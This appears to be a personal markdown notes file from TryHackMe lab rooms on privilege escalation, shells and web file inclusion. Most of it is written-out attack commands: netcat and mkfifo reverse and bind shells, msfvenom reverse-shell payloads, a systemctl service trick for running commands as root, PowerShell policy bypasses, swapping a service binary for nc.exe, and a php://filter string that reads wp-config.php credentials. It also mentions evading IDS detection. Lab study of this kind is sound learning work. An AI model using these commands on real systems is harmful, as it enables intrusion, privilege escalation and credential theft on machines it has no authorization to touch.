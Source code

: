 # R

* Remember for web/general/security
* .todo: metasploit dns
* web general | terminology | URL may have to be moved

<hr>

## Prev esc

https://tryhackme.com/room/linprivesc
=> hint/notes
=> network

* https://tryhackme.com/room/introtoshells
* If there are tools not installed on your target: https://github.com/andrew-d/static-binaries
* nc ip port -e /bin/bash (rev shell)
* nc -lvnp port -e /bin/bash (bind shell)
* this is not included in most versions of netcat
* `mkfifo /tmp/f; nc XXX < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f` (listener for our wxw shell)
* https://tryhackme.com/room/introtoshells (Windows)
* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#netcat-traditional
* `msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>`
* staged reverse shell payloads and stageless
* exploit/multi/handler
  * It's essential if you want to use Meterpreter shells, and is the go-to when using staged payloads
  * `set PAYLOAD X`
  * `exploit -j`
* socat is a sort of ncat+more, but not installed by default, and harder to learn.
  * Read again the section: https://tryhackme.com/room/introtoshells
  * Can encrypt, may bypass an IDS: https://tryhackme.com/room/introtoshells
* Socat: transfer the socat binary
* Reverse shells/... note lasty

<hr>

## Overconfidence

--- https://tryhackme.com/room/vulnversity

* Capture a request uploading a file
* Intruder to test which filetype is not blocked
* `msfvenom -p php/reverse_php LHOST=tun0 LPORT=4444 -o mrevshell.phtml`
  * No one can make it work!!!
* `msfvenom -p php/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -o mrevshell_php_rtcp.phtml`

```bash
TF=$(mktemp).service
echo "[Service]
Type=oneshot
ExecStart=/bin/sh -c '$@ > /tmp/output'
[Install]
WantedBy=multi-user.target" > $TF
systemctl -f link $TF
systemctl -f enable --now $TF
cat /tmp/output
```

--- https://tryhackme.com/room/steelmountain

* use meterpreter upload to upload the winPEAS
* `upload /tmp/xxx`
* `shell`
* `.\winPEASany_ofs.exe`
* `powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"`
* `powershell -ep bypass -c ". .\PowerUp.ps1;"`
* `https://github.com/itm4n/PrivescCheck#metasploit-timeout`
* `load powershell`
* `powershell_shell`
* `. .\PowerUp.ps1; Invoke-AllChecks`
* `. .\PowerUp.ps1` `PS > Invoke-AllChecks`
* https://www.joesandbox.com/#windows
* https://github.com/EgeBalci/sgn
* sc qc XXX
* sc stop XXX
* `Write-ServiceBinary -Name 'XXX' -Path ".\nc.exe"`
* sc start XXX
* `powershell -c wget "URL" -outfile "OUTPUT"`
* like OTX: https://cyware.com/

--- https://tryhackme.com/room/allinonemj

* Kali right-arrow
* Test: `wpscan --url http://10.10.162.222/wordpress/ --detection-mode aggressive`
* `php://filter/convert.base64-encode/resource=../../../../../wp-config.php` (file inclusion)
* not finished aza.